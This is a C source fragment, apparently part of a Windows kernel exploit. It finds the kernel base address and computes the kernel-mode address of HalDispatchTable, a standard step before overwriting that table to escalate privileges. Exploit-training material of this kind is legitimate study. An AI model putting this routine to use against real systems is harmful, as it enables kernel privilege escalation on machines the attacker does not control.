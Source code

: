 ```
 
    if (!NtQuerySystemInformation) {
        DEBUG_ERROR("\t\t\t[-] Failed Resolving NtQuerySystemInformation: 0x%X\n", GetLastError());
        exit(EXIT_FAILURE);
    }
 
    NtStatus = NtQuerySystemInformation(SystemModuleInformation, NULL, 0, &ReturnLength);
 
    // Allocate the Heap chunk
    pSystemModuleInformation = (PSYSTEM_MODULE_INFORMATION)HeapAlloc(GetProcessHeap(),
                                                                     HEAP_ZERO_MEMORY,
                                                                     ReturnLength);
 
    if (!pSystemModuleInformation) {
        DEBUG_ERROR("\t\t\t[-] Memory Allocation Failed For SYSTEM_MODULE_INFORMATION: 0x%X\n", GetLastError());
        exit(EXIT_FAILURE);
    }
    NtStatus = NtQuerySystemInformation(SystemModuleInformation,
                                        pSystemModuleInformation,
                                        ReturnLength,
                                        &ReturnLength);
 
    if (NtStatus != STATUS_SUCCESS) {
        DEBUG_ERROR("\t\t\t[-] Failed To Get SYSTEM_MODULE_INFORMATION: 0x%X\n", GetLastError());
        exit(EXIT_FAILURE);
    }
 
    KernelBaseAddressInKernelMode = pSystemModuleInformation->Module[0].Base;
    KernelImage = strrchr((PCHAR)(pSystemModuleInformation->Module[0].ImageName), '\\') + 1;
 
    DEBUG_INFO("\t\t\t[+] Loaded Kernel: %s\n", KernelImage);
    DEBUG_INFO("\t\t\t[+] Kernel Base Address: 0x%p\n", KernelBaseAddressInKernelMode);
 
    hKernelInUserMode = LoadLibraryA(KernelImage);
 
    if (!hKernelInUserMode) {
        DEBUG_ERROR("\t\t\t[-] Failed To Load Kernel: 0x%X\n", GetLastError());
        exit(EXIT_FAILURE);
    }
 
    // This is still in user mode
    HalDispatchTable = (PVOID)GetProcAddress(hKernelInUserMode, "HalDispatchTable");
 
    if (!HalDispatchTable) {
        DEBUG_ERROR("\t\t\t[-] Failed Resolving HalDispatchTable: 0x%X\n", GetLastError());
        exit(EXIT_FAILURE);
    }
    else {
        HalDispatchTable = (PVOID)((ULONG_PTR)HalDispatchTable - (ULONG_PTR)hKernelInUserMode);
 
        // Here we get the address of HapDispatchTable in Kernel mode
        HalDispatchTable = (PVOID)((ULONG_PTR)HalDispatchTable + (ULONG_PTR)KernelBaseAddressInKernelMode);
 
        DEBUG_INFO("\t\t\t[+] HalDispatchTable: 0x%p\n", HalDispatchTable);
    }
 
    HeapFree(GetProcessHeap(), 0, (LPVOID)pSystemModuleInformation);
 
    if (hNtDll) {
        FreeLibrary(hNtDll);
    }
```